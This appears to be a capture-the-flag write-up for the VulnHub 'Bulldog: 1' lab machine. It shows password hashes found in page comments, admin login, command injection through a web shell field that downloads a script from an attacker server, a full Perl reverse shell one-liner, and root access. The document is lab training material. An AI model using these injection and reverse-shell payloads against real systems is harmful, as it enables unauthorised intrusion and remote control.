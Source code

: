 Bulldog: 1 write-up


scan host:

nikto http://192.168.56.101:8080/

/home/r1s3/storage/ctf/some/vuln_hub/Bulldog_1
![alt text](https://github.com/s1l3xz/some/tree/master/vuln_hub/Bulldog_1/nikto_scan.jpg)

	
	find /dev dir


Visit http://192.168.56.101:8080/dev/
	
find comments in web page source

![alt text](https://github.com/s1l3xz/some/tree/master/vuln_hub/Bulldog_1/comments.png)

	<!--Need these password hashes for testing. Django's default is too complex-->
	<!--We'll remove these in prod. It's not like a hacker can do anything with a hash-->
	Team Lead: alan@bulldogindustries.com<br><!--6515229daf8dbdc8b89fed2e60f107433da5f2cb-->
	Back-up Team Lead: william@bulldogindustries.com<br><br><!--38882f3b81f8f2bc47d9f3119155b05f954892fb-->
	Front End: malik@bulldogindustries.com<br><!--c6f7e34d5d08ba4a40dd5627508ccb55b425e279-->
	Front End: kevin@bulldogindustries.com<br><br><!--0e6ae9fe8af1cd4192865ac97ebf6bda414218a9-->
	Back End: ashley@bulldogindustries.com<br><!--553d917a396414ab99785694afd51df3a8a8a3e0-->
	Back End: nick@bulldogindustries.com<br><br><!--ddf45997a7e18a25ad5f5cf222da64814dd060d5-->
	Database: sarah@bulldogindustries.com<br><!--d8b8dd5e7f000b8dea26ef8428caf38c04466b3e-->


Try to brute forse over : https://crackstation.net/

	Back End: nick@bulldogindustries.com<br><br><!--ddf45997a7e18a25ad5f5cf222da64814dd060d5--> bulldog  ( sha1 )

	Database: sarah@bulldogindustries.com<br><!--d8b8dd5e7f000b8dea26ef8428caf38c04466b3e--> bulldoglover ( sha1 )



Login to django admin page http://192.168.56.101:8080/admin with one of credentials


Than go to  http://192.168.56.101:8080/dev/shell/

Find CLI vulnerability in command field:

![alt text](https://github.com/s1l3xz/some/tree/master/vuln_hub/Bulldog_1/CLI.png)

store perl reverse shell on my remote apache server:

use Socket;$i="192.168.56.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};

use CLI to downlod perl rev shell on bulldog machine:

ls & wget http://attacker_server/perl_script.pl -O /tmp/lol.pl


open nc on attacker side : nc -lvp 1234

execute perl script over CLI :ls & perl /tmp/lol2.pl & id


Get rev shell under jango

![alt text](https://github.com/s1l3xz/some/tree/master/vuln_hub/Bulldog_1/rev_shell.png)

find customPermissionApp elf file in /home/bulldogadmin/.hiddenadmindirectory directory

reverse elf , find root password : SUPERultimatePASSWORDyouCANTget

execute: sudo su root

got root ;

find secret in /root/congrats.txt

![alt text](https://github.com/s1l3xz/some/tree/master/vuln_hub/Bulldog_1/proof.jpg)